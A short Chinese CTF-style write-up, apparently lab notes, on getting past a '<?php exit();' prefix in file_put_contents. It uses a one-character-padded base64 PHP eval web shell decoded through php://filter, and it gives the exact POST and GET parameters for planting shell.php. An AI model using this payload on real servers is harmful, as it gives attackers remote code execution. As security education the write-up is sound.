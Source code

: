 ![image-20240126101834090](照片/image-20240126101834090.png)

```
file_put_content函数在请求访问时没有该文件会新建一个文件，文件的内容被拼接上了"<?php exit();"，这就导致如果我们按常规思路写shell进去的话，
<?php 
	exit();
<?php
	eval($_POST[123]);
?>
执行时就会直接先执行exit()退出了，我们后面的shell代码是无法执行的。
此时。我们将shell写成
aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=
解读一下：PD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=是经过base64加密的<?php eval($_POST[123]);?>
前面的a是为了凑出base64编码，如果不加1位，会发现编码解不出来
那我们的shell最终就变成
<?php exit();aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=
经过base64解码可得
&^F+Z<?php eval($_POST[123]);?>
就跳过了exit()
```

所以post传参的参数为

```
content=aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=
```

我们要用base64解码的形式去读取shell，并将传入的shell进行base64解码并进行保存，所以get传参为

```
?filename=php://filter/convert.base64-decode/resource=shell.php
```

接下来我们访问shell.php
